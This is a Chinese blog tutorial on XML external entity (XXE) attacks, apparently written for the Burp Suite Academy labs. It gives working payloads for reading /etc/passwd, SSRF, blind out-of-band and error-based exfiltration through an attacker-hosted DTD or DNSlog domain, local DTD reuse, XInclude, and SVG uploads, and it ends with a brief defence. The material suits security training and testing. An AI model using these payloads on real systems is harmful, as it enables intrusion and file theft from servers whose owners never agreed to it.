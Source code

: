 ```yaml
---
layout: post
title: "Burpsuite Academy系列教程-XXE"
date:   2021/8/17
tags: [Burpsuite Academy系列教程]
comments: true
author: c-uncle
---
```


## XXE的几种利用  

1. 利用XXE获取文件
2. 利用XXE实现SSRF攻击
3. 在XXE无回显的情况下，外带数据
4. 在XXE无回显的情况下，利用错误信息获取数据

### 利用XXE获取文件

利用XXE获取服务器上的任意文件需要以下两个条件：

- 声明一个外部实体A，该实体包含要获取的文件路径。
- 修改XML中的某个会被应用处理后返回的数据变量B，使其使用定义好的实体A。

下面是一个正常的XML数据

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

假设我们要获取/etc/passwd，我们可以构造下面的payload

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```



**Note：** 有时候XML中可能有很多个数据，但并不是每一个数据都会被返回，因此我们需要耐心地一个个试。



### 利用XXE实现SSRF

利用XXE实现SSRF的条件和获取文件是大致相同的，区别在于将文件路径改为目标的URL。

可以使用payload

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```



### 无回显XXE（blind XXE）

有两种方法可以找到blind XXE。

- 利用外带数据技术获取敏感数据，例如：利用DNSLog探测是否有XXE或利用ceye获取数据
- 通过触发XML的解析错误，使得错误信息中带有敏感数据



#### 结合外带数据技术（out-fof-band,OAST）利用XXE

利用DNSlog来验证是否存在XXE。

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://[DNSlog域名]/"> ]>
```

有时候，应用会阻止用户在XML中使用常规实体，这时我们可以使用参数实体来进行攻击。

使用参数实体攻击需要知道两件事。

- 参数实体的定义如下

  ```
  <!ENTITY % xxe SYSTEM "http://tqymov.dnslog.cn">
  ```

- 参数实体的引用如下

  ```
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://tqymov.dnslog.cn"> %xxe; ]>
  ```

参数实体和常规实体在使用上的区别就是在实体名前加%，并且参数实体的引用是放在<!DOCTYPE>中的。





#### 通过错误信息获取数据

发送给目标服务器的payload

```
<!DOCTYPE foo [
 <!ENTITY % goodies SYSTEM "https://[my-ip]/exploit">
%goodies;
]>
```

我的服务器存放的payload

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

观察第二个payload的第二行，可以看到调用file协议访问了一个不存在的路径，导致出错，同时%file的内容就是我们要读取的文件内容。由于返回的错误信息会显示我们请求的路径，也就导致了文件内容被外带出来。

有点像SQL注入里的报错注入。



#### 利用本地DTD进行XXE

假设目标服务器上存在一个DTD文件/tmp/xxx.dtd，并且文件中有一个实体名叫abc，那么我们可以构造以下payload来触发XML解析错误并获取数据。

```
<!DOCTYPE foo [
 <!ENTITY % localDtd SYSTEM "/tmp/xxx.dtd">
 <!ENTITY % abc '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%localDtd;
]>
```

原理是新的abc实体会覆盖/tmp/xxx.dtd中的abc，从而触发解析错误。

我认为在XML中定义的abc是内部实体，但是由于localDtd引入的/tmp/xxx.dtd，并且/tmp/xxx.dtd中的abc实体属于外部实体。

这时内部实体abc会覆盖外部实体abc的内容，但是却保留了外部实体abc的特性，解析器会认为内部实体abc是一个外部实体。

**注意：XML规范是不允许内部实体引用参数实体的。**



## 隐藏的XXE攻击

有时候我们并不能直接地向服务器发送XML数据，但这不代表不存在XXE攻击。

下面介绍几种特别的攻击方法：

#### 利用XInclude进行XXE攻击

有些应用会将用户提交的参数填充进XML中，并解析该XML。虽然这可能存在XXE漏洞，但是由于我们无法定义实体，也就无法向前面一样实现攻击。

这时我们可以利用XInclude来实现XXE攻击，XML允许在XML文档中再建立一个子文档。这意味着我们可以将带有恶意payload的XML文档嵌入在原XML文档中，从而实现XXE攻击。

要使用XInclude攻击，我们可以按照下面的模板，来构造payload

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



#### 利用文件上传进行XXE攻击

有些应用允许用户上传文件，而有些文件是带有XML的，例如DOCX和SVG（**SVG 是一种基于 XML 语法的图像格式，全称是可缩放矢量图（Scalable Vector Graphics）**）。

这些文件上传到服务器上后，应用对这类文件进行解析，从而触发XXE攻击。



SVG文件有效的payload

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```



#### 修改请求包conten-type进行XXE攻击

通过POST请求默认使用HTML表格，例如application/x-www-form-urlencoded，但有些应用可以兼容XML格式。

例如原先的请求如下

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

我们将其改成XML格式

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

如果目标服务器兼容XML格式的数据，那么我们的XML请求就会被解析，并且和HTML表格一样有效。



## 如何防御XXE？

XXE的本质是XML解析器支持一些不常用且存在潜在风险的功能。

防御XXE最有效的方法就是禁用外部实体和XInclude功能。
